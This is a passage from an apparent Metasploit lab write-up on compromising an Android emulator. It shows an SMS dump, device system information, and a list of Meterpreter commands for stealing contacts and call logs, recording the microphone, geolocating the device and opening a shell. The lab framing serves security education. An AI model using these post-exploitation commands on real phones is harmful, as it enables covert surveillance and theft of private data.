 **SMS dump content:**
```bash
cat sms_dump_20251004214305.txt

=====================
[+] SMS messages dump
=====================

Date: 2025-10-04 21:43:05.9907937 +0200
OS: Android 9 - Linux 4.4.157-genymotion-ga887da7 (i686)
Remote IP: 127.0.0.1
Remote Port: 33180

#1
Type	: Outgoing
Date	: 2025-10-04 21:27:06
Address	: 999634954
Status	: NOT_RECEIVED
Message	: seconds test

#2
Type	: Outgoing
Date	: 2025-10-04 21:26:45
Address	: 9999
Status	: NOT_RECEIVED
Message	: hi man whats up
```

#### 2. System Information Gathering
```bash
meterpreter > sysinfo
Computer    : localhost
OS          : Android 9 - Linux 4.14.150-g4a26409ecfe5 (aarch64)
Meterpreter : dalvik/android
```

#### 3. Additional Capabilities Demonstrated
- Root check: `check_root`
- Contact exfiltration: `dump_contacts`
- Call log retrieval: `dump_calllog`
- Microphone recording: `record_mic`
- Geolocation tracking: `geolocate`
- Shell access: `shell`

---


## Conclusion

This lab successfully demonstrated the complete lifecycle of an Android exploitation campaign using Metasploit Framework. The exercise highlighted both the technical capabilities available to attackers and the critical importance of defense-in-depth strategies for mobile security.
